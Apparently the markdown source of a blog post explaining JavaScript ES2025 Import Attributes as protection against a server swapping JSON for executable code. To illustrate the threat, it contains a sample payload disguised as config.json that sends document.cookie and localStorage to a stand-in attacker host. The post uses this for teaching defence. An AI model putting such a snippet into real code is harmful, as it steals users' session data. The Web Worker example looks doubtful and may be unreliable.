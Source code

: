 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-09-12T13:03:04.439Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programming
  - JavaScript
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript included **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from "./config.json";
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch("https://attacker.hack", {
    method: "POST",
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: "secret-key",
    refreshToken: "secret-key",
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from "./config.json";
+ // WITH Import Attributes - safe JSON import
+ import config from "./config.json" with { type: "json" };
```

## Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from "./config.json" with { type: "json" };

// Dynamic imports
const config = await import("./config.json", {
  with: { type: "json" }
});

// Re-exports
export { apiKey } from "./config.json" with { type: "json" };

// JavaScript modules
import module from "./module.js" with { type: "javascript" };

// Web Workers
new Worker("worker.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

## Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.
- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.
- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.
- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.
